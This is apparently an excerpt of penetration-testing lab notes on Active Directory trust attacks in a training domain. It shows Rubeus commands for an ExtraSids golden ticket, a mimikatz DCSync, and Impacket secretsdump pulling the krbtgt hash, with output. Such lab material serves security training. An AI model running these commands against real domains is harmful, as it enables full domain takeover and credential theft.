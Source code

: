 6) Confirming a Kerberos Ticket is in Memory Using klist
klist

7) Listing the Entire C: Drive of the Domain Controller
ls \\academy-ea-dc01.inlanefreight.local\c$
 Volume in drive \\academy-ea-dc01.inlanefreight.local\c$ has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\academy-ea-dc01.inlanefreight.local\c$

09/15/2018  12:19 AM    <DIR>          PerfLogs

#### ExtraSids Attack - Rubeus

4) Using ls to Confirm No Access Before Running Rubeus
ls \\academy-ea-dc01.inlanefreight.local\c$

ls : Access is denied
At line:1 char:1
+ ls \\academy-ea-dc01.inlanefreight.local\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\academy-ea-dc01.inlanefreight.local\c$:String) [Get-ChildItem], UnauthorizedAcces 
   sException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
	
<SNIP>

5) Creating a Golden Ticket using Rubeus
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

--> S-1-5-21-3842939050-3880317879-2865463114-519 : SID of Targeted Group

6) Confirming the Ticket is in Memory Using klist
klist

7) Performing a DCSync Attack
C:\Tools\mimikatz\x64> .\mimikatz.exe

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm

If dealing with multiple domains, we will need to specify the exact domain :
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL

## From Linux

### SID History Primer using Impacket

1) Performing DCSync with secretsdump.py to grab the NTLM hash for the KRBTGT account
secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt

krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
